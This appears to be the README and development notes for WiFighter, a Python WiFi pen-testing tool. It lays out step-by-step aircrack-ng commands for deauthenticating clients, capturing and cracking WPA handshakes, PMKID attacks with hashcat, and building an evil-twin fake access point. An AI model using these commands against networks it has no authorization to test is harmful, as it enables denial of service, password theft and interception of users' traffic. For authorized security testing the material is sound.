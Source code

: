 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python


## Installation 

**Dependencies**
```sh
sudo zypper in python3 aircrack-ng ...
```

**Creating python virtual enviroment**

Clone the project
```sh
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```sh
cd WiFighter
```

Create virtual enviroment
```sh
python3 -m venv venv
```

Enter the virtual enviroment
```sh
source venv/bin/activate
```

Install python modules (prettytable, psutil, scapy) 
```sh
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```sh
deactivate
```

Run the tool
```sh
sudo ./wifighter.py
```


## WiFi Scan & Select
- WPS scan?

## Attacking
- wps cracking (testing)
- monitor start listen command error still switches the NIC to monitor


## Future visions
- vyber vice wordlistu najednou?
- Utilize hashcat & xctools - HW acc. cracking & generating wordlists, conversions?

## REMEMBER !!
- create requirements.txt

- dependencies a install script



### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```sh
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```sh
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```sh
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```sh
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```sh
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```sh
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```sh
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```sh
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```sh
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake - aircrack**

```sh
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```


### PMKID Attack
Compile needed hcxtools & install it's dependencies
```sh
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools

sudo zypper in *gcc *libopenssl3 libopenssl-devel *libz1 *libz-devel *libcurl4 libcurl-devel *pkgconf-pkg-config

sudo make install


git clone https://github.com/ZerBea/hcxdumptool.git  # Install version 6.2.6
cd hcxdumptool

sudo make install
```

Install and setup hashcat
```sh
sudo zypper in hashcat pocl
```


Put wireless NIC into monitor
```sh
wifighter start <INTERFACE>
```

Capture PMKID
```sh
sudo hcxdumptool -o <OUTPUT_CAPTURE_FILE> -i <INTERFACE> --enable_status=3 --filtermode=2 --filterlist_ap=<TARGET_AP_LIST>
```

Convert capture into the hash format
```sh
hcxpcapngtool -o <OUTPUT_PMKID_HASH_FILE> <CAPTURED_PMKID>
```

Crack the PMKID
```sh
sudo hashcat -D 1 -a 0 -m 22000 <PMKID_HASH_FILE> <WORDLIST> -o <OUTPUT_FILE>
```


### Evil Twin
Install dependencies
```sh
sudo zypper in hostapd dhcp-server iptables
```

Set dhcp server listenning interface
```sh
nano /etc/sysconfig/dhcpd 

DHCPD_INTERFACE="<LISTEN_INTRFACE>"
```

Set dhcp server configuration
```sh
nano /etc/dhcpd.conf
```
```sh
option domain-name "local";
option domain-name-servers 8.8.8.8, 8.8.4.4;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.100.0 netmask 255.255.255.0 {
    range 192.168.100.2 192.168.100.254;
    option subnet-mask 255.255.255.0;
    option broadcast-address 192.168.100.255;
}
```

Set Fake AP configuration
```sh
nano /etc/hostapd.conf
```
```sh
interface=wlp99s0f3u2
driver=nl80211

ssid=Fake_AP
channel=1

hw_mode=g
ieee80211n=1
wme_enabled=1
macaddr_acl=0
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=81203666
rsn_pairwise=CCMP
```

Configure fake AP interface
```sh
sudo ip addr add 192.168.100.1/24 dev <INTERFACE>
route add -net 192.168.100.0 netmask 255.255.255.0 gw 192.168.100.1
```

Enable internet connection for clients
```sh
sudo tee | echo 1 > /proc/sys/net/ipv4/ip_forward
```

Start the fake AP
```sh
systemctl restart dhcpd
systemctl restart hostapd
```



### WPS Attack - Reaver
Dependencies
```sh
sudo zypper in aircrack-ng
```
```sh
pixiewps - GitHub
```
```sh
libpcap - Repo
```